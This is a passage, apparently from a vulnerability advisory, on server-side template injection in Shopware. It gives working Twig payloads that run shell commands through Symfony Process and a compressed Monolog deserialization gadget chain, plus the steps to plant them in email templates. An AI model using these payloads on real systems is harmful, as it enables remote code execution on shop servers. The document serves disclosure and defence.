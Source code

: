 ```
['id'] | filter(['\\Symfony\\Component\\VarDumper\\VarDumper', 'dump']) | length
```

#### Gadget 3: 
Using `\Symfony\Component\Process\Process::fromShellCommandline()` to invoke `proc_open("id > /tmp/pwned.txt")`:

```bash
{'/':'id > /tmp/pwned.txt'} | map(['\\Symfony\\Component\\Process\\Process', 'fromShellCommandline']) | map(e => e.run())|length
```

### Exploit Conditions:
This vulnerability can be exploited if the attacker has access to:
- an administrator account, or
- a non-administrative user account with permissions to create/edit Twig templates, such as:
1. Settings > Email templates permissions
2. Content > Themes permissions
3. Additional Permissions > Manage Extensions permissions

### Steps Reproduction:
For simplicity, the following proof-of-concept uses the administrator account to demonstrate how the vulnerability can be exploited using `Email templates`.
1. Navigate to `http://<shopware_target>/admin#/sw/mail/template/index` and login to an administrator account.
2. Click the `...` button for the first template (e.g. `Cancellation invoice`), and click the Edit button.
3. Under the `Mail text` section, enter the following payload for the `HTML` text area:

#### Gadget 1: 
Using `\Shopware\Core\Framework\Adapter\Cache\CacheValueCompressor::uncompress()` to invoke unserialize()
Serialized payload generated using the phpggc tool: 

```bash
./phpggc -b Monolog/RCE8 system 'id'
```
Compressed payload is generated using: 

```bash
$ php -r 'echo gzcompress(shell_exec("php phpggc Monolog/RCE8 system id"));' | hexdump -v -e '"\\\x" 1/1 "%02X"' 
```

```
["\x78\x9C\x65\x90\x4D\x4F\xC3\x30\x0C\x86\x77\xE6\x67\xF8\xC8\xA9\x49\x61\x30\xE7\x86\x86\xE0\x50\x34\x09\xAE\x93\xA6\x7E\x78\xC5\x53\xDA\x4C\x49\x3A\xF1\xA1\xFE\x77\x92\x06\x8D\xA2\xDD\xEC\xF7\x8D\x5F\x3F\xCE\x06\xE5\x3D\xC2\x8B\xE9\x8D\x36\xED\xF6\xB9\xEC\x1B\x4D\x76\xFB\x64\xCD\x70\xFC\x6D\x00\x05\x7E\x3B\x14\x02\x61\x71\xBD\x78\x4F\xA2\x03\x55\x46\x9D\x31\x53\x1B\x94\xAB\xCB\x88\x87\x61\xBF\x27\x7B\xCE\x58\x4E\x19\xD9\x3C\x03\x94\xC5\x5C\x05\x35\x9F\xD4\x6A\x1A\x78\xE3\x2F\x02\xC5\x28\xA2\x71\x33\x33\x0A\xEE\xD8\x47\x27\x0B\xCE\x6A\x66\xFC\x23\x11\x77\x7F\x24\x85\x69\x5F\xA9\x36\xB6\x01\x94\x71\xFB\x2D\x82\xA6\x13\x69\x50\x8F\x28\x66\xC4\x45\x14\x71\x4D\xD5\xD0\x82\x9A\x9E\x75\xFC\x41\x4D\xAC\x25\x02\x87\x62\x1C\xCF\x30\xDC\xB3\xE7\x52\x07\xCA\xA0\x57\x09\x33\xF1\x1F\xAD\xA9\xC9\x39\x93\xFE\x26\x4F\x44\xC1\x0D\x79\x2D\xF9\x9D\xA9\x0E\x54\xFB\xDD\xA9\x8C\x7E\xBA\x2F\xCC\x51\xDF\xC4\x4E\x86\x6E\x89\xE0\x3E\x9D\xA7\x2E\xEE\x1B\xC7\xAB\x1F\x89\x25\x7F\x63"] | map(['\\Shopware\\Core\\Framework\\Adapter\\Cache\\CacheValueCompressor', 'uncompress']) | length
```
